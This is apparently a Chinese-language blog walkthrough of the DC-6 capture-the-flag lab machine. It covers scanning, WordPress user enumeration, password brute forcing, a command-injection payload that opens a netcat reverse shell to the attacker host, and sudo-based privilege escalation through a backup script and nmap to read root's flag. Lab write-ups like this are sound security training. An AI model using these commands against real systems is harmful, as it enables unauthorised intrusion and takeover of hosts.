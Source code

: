 ```yaml
---
layout: post
title: DC-6
subtitle: DC-6
date: 2025-07-15 09:33
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```

ip扫描发现主机 `192.168.163.133`

![image.png](https://img.ghostliner.top/079U9O.png)

`namp -T4 -A -p- 192.168.163.133` 扫描端口发现80和22端口

![image.png](https://img.ghostliner.top/E6ZhrX.png)

访问网站被重定向 <http://wordy/> , 修改hosts文件

发现站点为 wordpress，使用whatweb 查看详细信息，dirsearch扫描目录

```shell
whatweb -v http://wordy/
dirsearch -u http://wordy/
```

登陆页面： <http://wordy/wp-login.php>

wpscan 获取用户名

```shell
wpscan --url http://wordy/ -e u
# 保存用户名
echo "admin\ngraham\nmark\nsarah\njens" >user.txt
```

根据官网提示生成密码字典

![image.png](https://img.ghostliner.top/T0UIMS.png)

```shell
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
```

wpscan进行爆破

```shell
wpscan --url http://wordy -U user.txt -P passwords.txt
# mark helpdesk01
```

![image.png](https://img.ghostliner.top/wC0ouK.png)

登录成功找到页面，发现存在远程命令执行漏洞

![image.png](https://img.ghostliner.top/9LqB04.png)

反弹shell

```shell
127.0.0.1;nc -nv 192.168.163.132 4444 -e /bin/bash
# kali
nc -lvvp 4444
```

查看home目录

```shell
ls -R /home
```

![image.png](https://img.ghostliner.top/Qpm843.png)

查看 `things-to-do.txt` 文件，获取用户名密码 `graham`   `GSo7isUM1D4`

![image.png](https://img.ghostliner.top/1kS92r.png)

切换用户后，`sudo -l` 尝试提权

![image.png](https://img.ghostliner.top/PkCRPu.png)

![image.png](https://img.ghostliner.top/JamVE6.png)

在backups.sh脚本中写入 `/bin/bash`进行提权

```shell
echo '/bin/bash' >> /home/jens/backups.sh
sudo -u jens /home/jens/backups.sh
```

切换用户成功，进一步提权

![image.png](https://img.ghostliner.top/qOZbD0.png)

namp提权

```shell
tf=$(mktemp)
echo 'os.execute("/bin/sh")' > $tf
sudo nmap --script=$tf
```

提权成功

```shell
python -c 'import pty;pty.spawn("/bin/bash")'
cd /root
cat theflag.txt
```

![image.png](https://img.ghostliner.top/jjWGgY.png)
